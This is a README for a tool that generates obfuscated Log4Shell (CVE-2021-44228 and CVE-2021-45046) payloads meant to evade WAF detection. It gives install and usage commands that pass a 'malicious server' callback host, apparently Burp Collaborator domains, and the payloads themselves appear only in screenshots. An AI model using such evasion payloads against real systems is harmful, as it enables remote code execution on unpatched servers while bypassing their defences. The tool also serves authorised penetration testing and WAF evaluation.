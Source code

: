# Log4Shell-obfuscated-payloads-generator
Log4Shell-obfuscated-payloads-generator can generate primary obfuscated or secondary obfuscated CVE-2021-44228 or CVE-2021-45046 payloads to evade WAF detection.

## Installation
`git clone https://github.com/r3kind1e/Log4Shell-obfuscated-payloads-generator.git`

Log4Shell-obfuscated-payloads-generator works out of the box with Python version 3.x on any platform.

## Usage
To get a list of basic options use:

`python3 Log4Shell-obfuscated-payloads-generator.py -h`

To get usage examples use:

`python3 Log4Shell-obfuscated-payloads-generator.py -hh`

## Screenshots
`-h`: get a list of basic options
![help](img/help.png)

`-hh`: get usage examples
![usage-examples](img/usage-examples.png)

With a single option to generate payloads, the `-s` option specifies the malicious server:
`--generate-primary-obfuscated-cve-2021-44228-payload 8 -s ck0pf4l6fmq4w0v17o7t894txk3arz.oastify.com`
![primary44228](img/primary44228.png)
![burp-collaborator-client1](img/burp-collaborator-client1.png)

`--generate-primary-obfuscated-cve-2021-45046-payload 4 -s x53a0p6r07bphlgms9setupei5owcl.oastify.com`
![primary45046](img/primary45046.png)

`--generate-secondary-obfuscated-cve-2021-44228-payload 5 -s oia1rpap41mhxkp6rdbbywit1k7avz.oastify.com`
![secondary44228](img/secondary44228.png)
![burp-collaborator-client2](img/burp-collaborator-client2.png)

`--generate-secondary-obfuscated-cve-2021-45046-payload 5 -s 3vzg44n4hgzwaz2l4soqbbv8ezkq8f.oastify.com`
![secondary45046](img/secondary45046.png)

With multiple options to generate payloads, the -s option specifies a malicious server:
`--generate-primary-obfuscated-cve-2021-44228-payload 4 --generate-secondary-obfuscated-cve-2021-44228-payload 4 -s exfr6fpfjr17ca4w63q1dmxjgam2ar.oastify.com`
![primary44228secondary44228](img/primary44228secondary44228.png)

Without specifying a malicious server with the -s option, the {{callback_host}} placeholder will be preserved in the generated payloads:
`--generate-primary-obfuscated-cve-2021-44228-payload 3`
![primary44228-without-server](img/primary44228-without-server.png)
`--generate-primary-obfuscated-cve-2021-45046-payload 3 --generate-secondary-obfuscated-cve-2021-45046-payload 7`
![primary45046secondary45046](img/primary45046secondary45046.png)

TODO: Log4Shell-obfuscated-payloads-generator的设计思想，5月20日之后公开。
